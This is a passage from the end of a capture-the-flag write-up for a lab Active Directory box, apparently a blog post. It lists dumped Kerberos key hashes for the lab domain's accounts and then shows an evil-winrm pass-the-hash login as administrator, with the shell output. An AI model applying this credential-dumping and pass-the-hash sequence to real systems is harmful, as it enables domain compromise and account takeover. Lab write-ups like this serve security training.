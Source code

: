 spookysec.local\darkstar:des-cbc-md5:758af4d061381cea
spookysec.local\Ori:aes256-cts-hmac-sha1-96:5534c1b0f98d82219ee4c1cc63cfd73a9416f5f6acfb88bc2bf2e54e94667067
spookysec.local\Ori:aes128-cts-hmac-sha1-96:5ee50856b24d48fddfc9da965737a25e
spookysec.local\Ori:des-cbc-md5:1c8f79864654cd4a
spookysec.local\robin:aes256-cts-hmac-sha1-96:8776bd64fcfcf3800df2f958d144ef72473bd89e310d7a6574f4635ff64b40a3
spookysec.local\robin:aes128-cts-hmac-sha1-96:733bf907e518d2334437eacb9e4033c8
spookysec.local\robin:des-cbc-md5:89a7c2fe7a5b9d64
spookysec.local\paradox:aes256-cts-hmac-sha1-96:64ff474f12aae00c596c1dce0cfc9584358d13fba827081afa7ae2225a5eb9a0
spookysec.local\paradox:aes128-cts-hmac-sha1-96:f09a5214e38285327bb9a7fed1db56b8
spookysec.local\paradox:des-cbc-md5:83988983f8b34019
spookysec.local\Muirland:aes256-cts-hmac-sha1-96:81db9a8a29221c5be13333559a554389e16a80382f1bab51247b95b58b370347
spookysec.local\Muirland:aes128-cts-hmac-sha1-96:2846fc7ba29b36ff6401781bc90e1aaa
spookysec.local\Muirland:des-cbc-md5:cb8a4a3431648c86
spookysec.local\horshark:aes256-cts-hmac-sha1-96:891e3ae9c420659cafb5a6237120b50f26481b6838b3efa6a171ae84dd11c166
spookysec.local\horshark:aes128-cts-hmac-sha1-96:c6f6248b932ffd75103677a15873837c
spookysec.local\horshark:des-cbc-md5:a823497a7f4c0157
spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:effa9b7dd43e1e58db9ac68a4397822b5e68f8d29647911df20b626d82863518
spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:aed45e45fda7e02e0b9b0ae87030b3ff
spookysec.local\svc-admin:des-cbc-md5:2c4543ef4646ea0d
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
spookysec.local\a-spooks:aes256-cts-hmac-sha1-96:cfd00f7ebd5ec38a5921a408834886f40a1f40cda656f38c93477fb4f6bd1242
spookysec.local\a-spooks:aes128-cts-hmac-sha1-96:31d65c2f73fb142ddc60e0f3843e2f68
spookysec.local\a-spooks:des-cbc-md5:e09e4683ef4a4ce9
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:5081c2173ee46154ab643fb71630c5ce5c30872a35d64307b1d69863595064be
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:20308f94a07e2a236e26a99cbe63530d
ATTACKTIVEDIREC$:des-cbc-md5:316ec21a8f86d076
[*] Cleaning up... 
{%endhighlight%}

And now that we have hashes for all accounts we can use pass-the-hash technique to login using evil-winrm. pass-the-hash is nothing but another form of authentication in which instead of credentials we provide  a hash to log in.

{%highlight text%}
$ evil-winrm -u administrator -H 0e0363213e37b94221497260b0bcb4fc -i 10.10.27.108

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>

*Evil-WinRM* PS C:\Users\svc-admin\Desktop> whoami
thm-ad\administrator
*Evil-WinRM* PS C:\Users\svc-admin\Desktop> hostname
AttacktiveDirectory
{%endhighlight%}

And now we logged in as admin using the admin hash. Form there just read all the flags from everyone's Desktop.

Nice and easy box, learned a bit about Active directory, cleared some confusions about the TGT and finally performed pass-the-hash.